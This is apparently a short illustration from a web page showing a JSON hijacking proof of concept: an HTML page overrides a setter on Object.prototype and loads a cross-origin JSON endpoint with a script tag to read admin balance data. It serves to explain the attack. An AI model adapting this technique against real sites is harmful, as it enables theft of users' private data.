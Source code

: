 ```
<html> 

<body> 
    <script type="text/javascript"> 
        Object.prototype.__defineSetter__('Id', function(obj){alert(obj);});
    </script> 
    <script src="http://example.com/Home/AdminBalances"></script> 
</body> 
</html>

```
Here Id should be in the json response

